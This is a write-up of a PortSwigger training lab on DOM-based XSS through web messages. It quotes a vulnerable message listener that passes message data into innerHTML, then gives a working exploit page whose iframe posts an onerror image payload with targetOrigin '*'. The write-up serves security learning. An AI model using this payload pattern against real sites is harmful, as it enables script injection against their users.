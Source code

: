 # DOM XSS using web messages | Jan 14, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages), you'll learn: DOM XSS using web messages! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-1/images/Pasted%20image%2020230114163506.png)

**View source page:**
```html
[...]
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
[...]
```

In this web message, it's vulnerable to DOM-based XSS, as **it doesn't verify the origin of incoming messages correctly** in the event listener, properties and functions that are called by the event listener.

Also, we can also see a sink (Dangerous function): `innerHTML`. It allows us to write HTML code to the `<div id='id'>` element.

Armed with above information, we can host a malicious HTML file that contains `<iframe>` element and use the `postMessage()` method to pass web message data to the vulnerable event listener, which then sends the payload to a sink on the parent page:

```html
<html>
    <head>
        <title>DOM XSS using web messages</title>
    </head>
    <body>
        <iframe src="https://0a0d00b0047cf0cfc0d6f9b900b100b5.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=errorpls onerror=print()>','*');"></iframe>
    </body>
</html>
```

As the event listener does not verify the origin of the message, and the `postMessage()` method specifies the `targetOrigin` `"*"`, the event listener accepts the payload and passes it into the `innerHTML` sink.

Let's go to the exploit server to host the payload, and test it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-1/images/Pasted%20image%2020230114164531.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-1/images/Pasted%20image%2020230114164540.png)

It worked! Let's deliver the payload to victim:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-1/images/Pasted%20image%2020230114164603.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-1/images/Pasted%20image%2020230114164608.png)

# What we've learned:

1. DOM XSS using web messages